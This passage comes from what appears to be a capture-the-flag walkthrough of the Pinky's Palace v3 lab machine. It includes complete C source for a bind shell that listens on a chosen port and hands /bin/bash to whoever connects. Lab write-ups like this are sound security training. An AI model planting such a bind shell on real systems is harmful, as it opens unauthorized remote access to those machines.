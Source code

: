 ![f5a3d456.png](/assets/images/posts/pinkys-palace-v3-walkthrough/f5a3d456.png)

I get a low-privilege shell.

## Low-Privilege Shell Redux

I don't know about you but I like me a proper shell. Remember the firewall blocks outbound connections? Because of that, I'll have to upload a bind shell instead.

With that in mind, let's write a 32-bit bind shell in C (`pinky-palace` is running 32-bit Debian 9.4). The bind shell takes a port number as its argument in case I need to reuse it on different ports.

<div class="filename"><span>bindshell.c</span></div>

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char* argv[]) {

  int host_sock = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in host_addr;
  host_addr.sin_family = AF_INET;
  host_addr.sin_port = htons(atoi(argv[1]));
  host_addr.sin_addr.s_addr = INADDR_ANY;

  bind(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));
  listen(host_sock, 0);

  int client_sock = accept(host_sock, NULL, NULL);
  dup2(client_sock, 0);
  dup2(client_sock, 1);
  dup2(client_sock, 2);

  execve("/bin/bash", NULL, NULL);
}
```


[1]: https://www.vulnhub.com/entry/pinkys-palace-v3,237/
[2]: https://twitter.com/@Pink_P4nther
[3]: https://www.vulnhub.com/